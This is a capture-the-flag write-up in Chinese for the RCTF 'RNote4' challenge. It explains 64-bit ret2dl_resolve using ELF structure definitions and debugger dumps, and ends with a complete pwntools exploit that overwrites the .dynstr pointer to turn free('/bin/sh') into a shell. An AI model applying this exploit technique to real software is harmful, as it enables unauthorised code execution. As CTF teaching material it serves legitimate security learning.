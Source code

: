 # RCTF RNote4
## Author: fanda
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>checksec一下，NO RELRD，NO PIE，利用dll_resolve来getshell很简单。如果没有学过如何利用dll_resolve的可以配合这两篇文章先学习一下：[看雪](https://bbs.pediy.com/thread-227034.htm)，[BruceFan](http://pwn4.fun/2016/11/09/Return-to-dl-resolve/)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>但鉴于这两篇文章都是讲32位下的，我这里再补充一下64位下的不同的地方：</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>Elf64_Sym结构和Elf64_Rel结构如下：</font></br>

```C
typedef struct{
Elf64_Word st_name;
unsigned char st_info;
unsigned char st_other;
Elf64_Section st_shndx;
Elf64_Addr st_value;
Elf64_Xword st_size;
}Elf64_Sym;

typedef struct{
Elf64_Addr r_offset;
Elf64_Xword r_info
}Elf64_Rel;


//elf.h
typedef uint32_t Elf64_Word;
typedef uint64_t Elf64_Xword;
typedef uint16_t Elf64_Section;
typedef uint64_t Elf64_Addr;

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>根据elf.h的定义，64位下的Elf64_Sym大小应该是0x18,Elf64_Rel大小是0x10，还有一个比较坑的地方就是我用readelf -S看节区的时候是这样的：</font></br>

```C
 [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align

[ 5] .dynsym           DYNSYM           00000000004002c0  000002c0
       0000000000000138  0000000000000018   A       6     1     8

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这个.dynsym好像还有一个EntSize，所以在算Elf64_Sym指针的时候还要加一个0x18，不然算不对。接下来我还是手动演示一遍如何以dl_resolve的角度得到free字符串的地址吧。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>首先用readelf -r RNote4得到以下信息：</font></br>

```C
fanda@fanda:~/Desktop$ readelf -r RNote4

Relocation section '.rela.dyn' at offset 0x4d0 contains 2 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000601ff8  000800000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ + 0
000000602080  000c00000005 R_X86_64_COPY     0000000000602080 stdin@GLIBC_2.2.5 + 0

Relocation section '.rela.plt' at offset 0x500 contains 10 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000602018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 free@GLIBC_2.2.5 + 0
000000602020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 __stack_chk_fail@GLIBC_2.4 + 0
000000602028  000300000007 R_X86_64_JUMP_SLO 0000000000000000 memset@GLIBC_2.2.5 + 0
000000602030  000400000007 R_X86_64_JUMP_SLO 0000000000000000 alarm@GLIBC_2.2.5 + 0
000000602038  000500000007 R_X86_64_JUMP_SLO 0000000000000000 read@GLIBC_2.2.5 + 0
000000602040  000600000007 R_X86_64_JUMP_SLO 0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
000000602048  000700000007 R_X86_64_JUMP_SLO 0000000000000000 calloc@GLIBC_2.2.5 + 0
000000602050  000900000007 R_X86_64_JUMP_SLO 0000000000000000 setvbuf@GLIBC_2.2.5 + 0
000000602058  000a00000007 R_X86_64_JUMP_SLO 0000000000000000 atoi@GLIBC_2.2.5 + 0
000000602060  000b00000007 R_X86_64_JUMP_SLO 0000000000000000 exit@GLIBC_2.2.5 + 0

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后直接x/10xg 0x602018来到rel指针处：</font></br>

```C
pwndbg> x/10xg 0x602018
0x602018:	0x0000000000400626	0x0000000000400636
0x602028:	0x00007ffff7b7f970	0x0000000000400656
0x602038:	0x0000000000400666	0x00007ffff7a2d740
0x602048:	0x0000000000400686	0x00007ffff7a7ce70
0x602058:	0x00000000004006a6	0x00000000004006b6

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>第一项的0x400626就是rel指针了，然后x/g 0x400626得到free的Elf64_Rel的结构信息：</font></br>

```C
pwndbg> x/g 0x400626
0x400626 <free@plt+6>:	0xffe0e90000000068

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>r_info>>8就是0了，然后从.dynsym处得到'free\0'的偏移地址，别忘了还有一个0x18:</font></br>

```C
pwndbg> x/g 0x4002c0+0x18
0x4002d8:	0x000000120000005f
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>再从.dynstr里用0x5f这个偏移就可以得到free函数名称字符串了，然后系统就会在动态链接库里根据这个字符串找到地址写入GOT表，我们在这题里就是要想办法让程序找free的时候欺骗它让它把system函数地址放到free里去，然后就可以getshell:</font></br>

```C
pwndbg> x/s 0x4003f8+0x5f
0x400457:	"free"

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以我们首先用readelf -d RNote4和x/20xg 0x601e28(.dynmic的地址)找到.dynstr的地址，然后先把.dynstr的地址修改为我们自己的地址，然后伪造一个字符串表，写上'system\0'，然后就可以欺骗了，最终利用脚本如下：</font></br>

Exploit脚本
========

```python
from pwn import *

DEBUG = 1

if DEBUG == 1:
  s=process('./RNote4')
  context(log_level='debug')
  gdb.attach(s)
else:
  s = remote('rnote4.2018.teamrois.cn',6767)

def alloc(size,data):
        s.send(p8(1))
        s.send(p8(size))
        s.send(data)

def edit(idx,size,data):
        s.send(p8(2))
        s.send(p8(idx))
        s.send(p8(size))
        s.send(data)

def free(idx):
        s.send(p8(3))
        s.send(p8(idx))

alloc(0x98,'A' * 0x98)
alloc(0x98,'A' * 0x98)
edit(0,0xb0,'B' * 0x98 + p64(0x21) + p64(0x98) + p64(0x601eb0))
edit(1,0x8,p64(0x602200))

edit(0,0xb0,'B' * 0x98 + p64(0x21) + p64(0x98) + p64(0x602200))
payload = 'A' * 0x5f + 'system\x00'
edit(1,len(payload),payload)

edit(0,0x8,'/bin/sh\x00')
free(0)

```
